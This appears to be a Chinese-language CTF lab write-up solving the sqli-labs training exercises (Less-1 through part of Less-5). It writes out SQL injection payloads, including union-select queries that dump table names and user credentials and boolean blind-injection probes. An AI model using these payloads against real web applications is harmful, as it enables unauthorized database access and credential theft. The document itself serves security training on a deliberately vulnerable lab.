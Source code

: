 # sqli-labs

打开网页，似乎有很多的题目，从第一题开始

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/K)GB)Y$K0]X7S9AW)_AVDY3.png?raw=true">

## Page-1

### Less-1

打开网页，什么都没有，屏幕中间提示我们输入id作为参数

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/N716C{K$9HYE_]S[R$(0(4Q.png?raw=true">

在url栏添加 `?id=1` ，页面变化

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/M]2XK[PCACJ[P~Q9}A2M$$0.png?raw=true">

下面判断注入点，输入 `?id=1 and 1=1` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/Q9B(F@X0J}BKG0TNMW86(HN.png?raw=true">

输入 `?id=1 and 1=2` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/YXK98G(2@54IV80[LNOV7`C.png?raw=true">

输入 `?id=1'` 报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/E89DYY@949HQLD%4$NY[1NX.png?raw=true">

输入 `?id=1' %23` 成功，确定存在注入点，字符型注入，单引号闭合

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/0UK$8ZD7AI~U2L7EJTT`@LW.png?raw=true">

*注：%23实际上是#的url编码*

然后判断字段数，屏幕上显示两个字段，我们从2个字段开始尝试，成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/L$ZD4__NZTM4I$AJ1D@PLNQ.png?raw=true">

3个字段成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/[2AL2(S$XP6X1FT}03`CK]I.png?raw=true">

4个字段报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/{X_H{439@%T_QZP7XFF{D}A.png?raw=true">

然后开始判断回显点

```sql
?id=0' union select 1,2,3 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/B95A8QVSA0N@Q7M%7{495~7.png?raw=true">

确定回显点为2,3，获取数据库名

```sql
?id=0' union select 1,version(),database() %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/H9W_GS}_22[SWJN5R23{(WU.png?raw=true">

获取到数据库名为Security，查看该数据库下所有表名

```sql
?id=0' union select 1,version(),group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/6ZC4H5_J_@R8@[F$P7A3~1N.png?raw=true">

注意到存在一个表名为users，查看其字段名

```sql
?id=0' union select 1,version(),group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/@4D)`]ZX3]L$8UBQ2O%WMAX.png?raw=true">

发现敏感词汇 `username` 和 `password` ，获取其中的值，中间用id隔开

```sql
?id=0' union select 1,version(),group_concat(username,id,password) from security.users %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/H90A2JO{XJOXV6ONEHAK~_1.png?raw=true">

获取到管理员账号密码，注入成功

### Less-2

封面和Less-1一样，先开始判断注入点，输入 `?id=1 and 1=1` ，成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/`5$2$@SA}Y8N1SDBUIWPCL0.png?raw=true">

输入 `?id=1 and 1=2` 无结果

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/7PMI5L94B44DS0F)073A78T.png?raw=true">

输入 `?id=1'` 报错

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/ADPA9(ET3R5O@U2FQM3{{U9.png?raw=true">

输入 `?id=1' %23` 报错，确定存在注入点，数字型注入

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/VEJ~XGGIZ_B{W)X)8PJ8}1P.png?raw=true">

下面过程和Less-1一样，省略

*注：此题注入语句为 `?id=0 <SQL Injection Statement>`* 

### Less-3

开始判断注入点，下面直接公布结论

- `?id=1 and 1=1` 成功

- `?id=1 and 1=2` 成功

- `?id=1'` 报错

- `?id=1' %23` 报错

这时仔细观察输入 `?id=1'` 时的报错信息，与Less-1相比，多了一个括号

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/DZ%DWK0PIHH}MP]N)8_FKK9.png?raw=true">

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/CWIE@{I)CMFD(6LH]SLJMU0.png?raw=true">

因此在构建语句的时候，也需要把括号考虑在内，输入 `?id=1') %23` 成功

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/[DZI}XV{9$~WU[A(2]025BX.png?raw=true">

下面过程和Less-1一样，省略

*注：此题注入语句为 `?id=0') <SQL Injection Statement> %23`* 

### Less-4

使用 `1 and 1=1` ， `1 and 1=2` ， `1'` 均无报错，考虑可能是双引号闭合，使用双引号进行尝试

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/2QWU%BT[VUC0O4UQ$]}06N8.png?raw=true">

根据报错信息，双引号后还有个括号，因此尝试 `1") %23`

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/L]BFGW[I55E[L1Z7BDN16M3.png?raw=true">

查询成功，以下过程省略

*注：此题注入语句为 `?id=0") <SQL Injection Statement> %23`* 

### Less-5

根据报错信息，可以确定本题为字符型注入

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/95N3IWZGFV{@_4O3AW3WYSW.png?raw=true">

但是，填入 `?id=1' %23` 后，页面不存在回显点

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/DVMQ80(63AOWW1%26PL{2GS.png?raw=true">

进行布尔盲注，先判断数据库名长度，使用二分法

```sql
?id=1' and length((select database()))>9 %23
```

*注：length()函数是获取返回值的长度*

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/B(_@MYR%KE_%EUG444KF701.png?raw=true">

无返回结果，数据库名长度小于等于9

```sql
?id=1' and length((select database()))>4 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/_V{}_IM[{}6X(J~C_%U8QNW.png?raw=true">

有返回结果，现在使用等于一个一个尝试，过程省略，直接公布结果

```sql
?id=1' and length((select database()))=8 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/GL~C(4~_}1QA~0`2MZ50W]W.png?raw=true">

确定数据库名长度为8，现在开始判断数据库名，下面的语句是判断第一个字母是否为大写A

```sql
?id=1' and ascii(substr((select database()),1,1))=65 %23
```

*注：ascii()函数将参数转换为ascii码，substr(arg1, arg2, arg3)是截取函数，返回值是一个字符串，arg1为截取内容，arg2是相对截取位置，从1开始，arg3是截取长度*

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/}TGW0Y$BI58G{F(]}SYX$J0.png?raw=true">

无返回结果，说明第一个字母不是大写A，然后继续判断大写B，以下过程省略

```sql
?id=1' and ascii(substr((select database()),1,1))=115 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/X2VBV)}L_MHMCV3S}]O[KUQ.png?raw=true">

当判断到115的时候出现返回结果，确定数据库名第一个字母为小写s，然后开始判断第二个字母，以下过程省略

*注：判断字母同样可以使用二分法*

现在已知数据库名为security，开始判断所有表名长度

```sql
?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>10 %23
```

> <img src="https://github.com/Ki1z/CTF/blob/main/IMG/LZDDYKG)A]6E${JVJ`7U3TM.png?raw=true">

出现返回结果，所有表名长度大于10